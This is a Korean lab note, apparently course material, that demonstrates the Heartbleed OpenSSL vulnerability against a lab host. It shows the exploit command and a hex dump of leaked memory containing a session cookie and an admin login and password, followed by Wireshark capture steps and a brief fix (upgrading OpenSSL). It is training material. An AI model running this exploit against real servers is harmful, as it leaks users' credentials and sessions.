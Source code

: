 root@KH200-kali:~# ./heartbleed.py 172.16.10.50

원하는 정보가 나올떄 까지 돌리기

```
 ....#.......onte
  00e0: 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C 69 63 61  nt-Type: applica
  00f0: 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F 72 6D 2D  tion/x-www-form-
  0100: 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 41 63 63 65  urlencoded..Acce
  0110: 70 74 2D 45 6E 63 6F 64 69 6E 67 3A 20 67 7A 69  pt-Encoding: gzi
  0120: 70 2C 20 64 65 66 6C 61 74 65 0D 0A 55 73 65 72  p, deflate..User
  0130: 2D 41 67 65 6E 74 3A 20 4D 6F 7A 69 6C 6C 61 2F  -Agent: Mozilla/
  0140: 34 2E 30 20 28 63 6F 6D 70 61 74 69 62 6C 65 3B  4.0 (compatible;
  0150: 20 4D 53 49 45 20 36 2E 30 3B 20 57 69 6E 64 6F   MSIE 6.0; Windo
  0160: 77 73 20 4E 54 20 35 2E 31 3B 20 53 56 31 29 0D  ws NT 5.1; SV1).
  0170: 0A 48 6F 73 74 3A 20 31 37 32 2E 31 36 2E 31 30  .Host: 172.16.10
  0180: 2E 35 30 0D 0A 43 6F 6E 74 65 6E 74 2D 4C 65 6E  .50..Content-Len
  0190: 67 74 68 3A 20 33 30 0D 0A 43 6F 6E 6E 65 63 74  gth: 30..Connect
  01a0: 69 6F 6E 3A 20 4B 65 65 70 2D 41 6C 69 76 65 0D  ion: Keep-Alive.
  01b0: 0A 43 61 63 68 65 2D 43 6F 6E 74 72 6F 6C 3A 20  .Cache-Control: 
  01c0: 6E 6F 2D 63 61 63 68 65 0D 0A 43 6F 6F 6B 69 65  no-cache..Cookie
  01d0: 3A 20 50 48 50 53 45 53 53 49 44 3D 67 74 6B 34  : PHPSESSID=gtk4
  01e0: 68 66 62 67 61 64 66 6D 61 64 66 31 30 71 76 65  hfbgadfmadf10qve
  01f0: 6F 67 75 64 6C 34 0D 0A 0D 0A 75 73 65 72 5F 69  ogudl4....user_i
  0200: 64 3D 61 64 6D 69 6E 26 75 73 65 72 5F 70 77 3D  d=admin&user_pw=
  0210: 50 40 73 73 77 30 72 64 6F 9F 23 31 6B 87 CB 4A  P@ssw0rdo.#1k..J
  0220: 35 88 D6 6A 8A D9 4F 60 00 00 00 00 00 00 00 00  5..j..O`........


-> 보면 id 랑 pw 보임
```



칼리에서

와이어샤크 & 파이어폭스 실행하기

https://172.16.10.50/ 접속

와이어샤크-> 필터 : SSL

로그인 하고  root@KH200-kali:~# ./heartbleed.py 172.16.10.50

 다시 걸기

와이어샤크 확인하기



#### 보안 방법 

OPEN SSL 버전을 올리면 된다. 



### WAPPLES (198p)

#### 설정
